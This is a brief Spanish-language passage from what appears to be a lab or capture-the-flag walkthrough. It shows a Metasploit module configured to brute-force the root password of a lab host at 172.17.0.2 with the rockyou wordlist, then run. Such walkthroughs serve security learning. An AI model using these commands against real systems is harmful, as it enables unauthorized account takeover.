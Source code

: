 <p align="center">
    <img src="../img/Pasted_image_20241231175441.png" width="500">
</p>


Mostramos las opciones
```
show options
```

<p align="center">
    <img src="../img/Pasted_image_20241231175518.png" width="500">
</p>


Configuramos las opciones
```
set RHOST 172.17.0.2
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
```

<p align="center">
    <img src="../img/Pasted_image_20241231175652.png" width="500">
</p>


Ejecutamos el módulo
```
run
```
